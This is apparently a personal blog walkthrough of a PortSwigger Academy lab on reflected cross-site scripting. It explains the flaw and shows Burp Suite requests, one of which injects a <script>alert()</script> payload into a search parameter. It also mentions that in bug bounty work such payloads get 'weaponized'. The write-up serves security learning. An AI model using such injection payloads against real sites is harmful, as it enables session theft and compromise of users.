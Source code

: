 ```yaml
---
title: "Reflected XSS into HTML context with nothing encoded Walkthrough"
description: "Do you really know about Reflected XSS ??"
date:  2024-09-28
categories: [Walkthrough]
tags: [PortSwigger, Academy , Lab , PortSwigger Academy Lab , XSS , Cross Site Scripting, Reflected XSS , HTML]
image: 
    path : https://i.pinimg.com/originals/30/69/c9/3069c9b05b28206006c1a7dd0569f343.gif
---
```




#### <span style="color: Orange;"><b># What do you understand by Reflected XSS ??</b></span>

When an application receives data in an HTTP request and incorporates that data in an unsafe manner inside the instant response, it might lead to reflected cross-site scripting, or XSS.  

Cross-Site Scripting (XSS) is a security vulnerability that arises when an application fails to properly sanitize user input, allowing an attacker to inject malicious scripts. To mitigate XSS, it's crucial to validate, sanitize, and encode user input. I recommend reading up on this topic to gain a deeper understanding. Here's a link to my latest [blog on XSS](https://archtrmntorr.github.io/posts/XXS-For-Beginners-101/).



**Objective :**

```
we have to perform a reflected cross-site scripting attack or have to find this in the search functionality , we can use the *alert* function
```

-> Let's start one of the example lab of reflected xss "Reflected XSS into HTML context with nothing encoded "

![Pasted image 20240720163823.png](https://i.imghippo.com/files/q2r7i1727105627.png)


- as we can see the search functionality in the lab 
- let's enter some thing and see the output 

![[Pasted image 20240720164227.png]](https://i.imghippo.com/files/6lBkc1727105632.png)

- you can see its reflect back on the webpage . 
- In Burp Suite, you can intercept and analyze HTTP requests.

```
GET /?search=nothing HTTP/2
Host: 0a0a001e0459acd9809a49f900770071.web-security-academy.net
Cookie: session=GKTxIIRL5oT8449fvDfBUo9mllMelGYI
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a0a001e0459acd9809a49f900770071.web-security-academy.net/?search=nothing
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

- Let's modify our result , a bit to pop up alert

```
GET /?search=<script>alert(nothing)</script> HTTP/2
Host: 0a0a001e0459acd9809a49f900770071.web-security-academy.net
Cookie: session=GKTxIIRL5oT8449fvDfBUo9mllMelGYI
Sec-Ch-Ua: "Not/A)Brand";v="8", "Chromium";v="126"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a0a001e0459acd9809a49f900770071.web-security-academy.net/?search=nothing
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

- as we can see we modify our request "nothing" to `<script>alert(nothing)</script>`

![[Pasted image 20240720164731.png]](https://i.imghippo.com/files/7fY0H1727105638.png)

- This is how lab is solved , this type of Getting a POPUP  , we mostly submit during the POC of xss in bug bounty program where we don't just popup alert , instead we weaponize our payload and increase the impact or severity . 

![[Pasted image 20240720164751.png]](https://i.imghippo.com/files/Lhf291727105644.png)

- To learn `impact of reflected XSS attacks` , `reflected XSS in different contexts` and `How to find and test for reflected XSS vulnerabilities` [read my blog on XSS .](https://archtrmntorr.github.io/posts/XXS-For-Beginners-101/)



------------------------------------------------------------------



##### <span style="color: Green;"><b># Final Thoughts</b></span>



I hope this space continues to be helpful in your learning journey!. If you find this blog helpful, I’d love to hear your thoughts—my inbox is always open for feedback. Please excuse any typos, and feel free to point them out so I can correct them. Thanks for understanding and happy learning!. You can contact me on
[Linkedin](https://www.linkedin.com/in/hitesh-sharma-413862245) and [Twitter](https://twitter.com/archtrmntor)












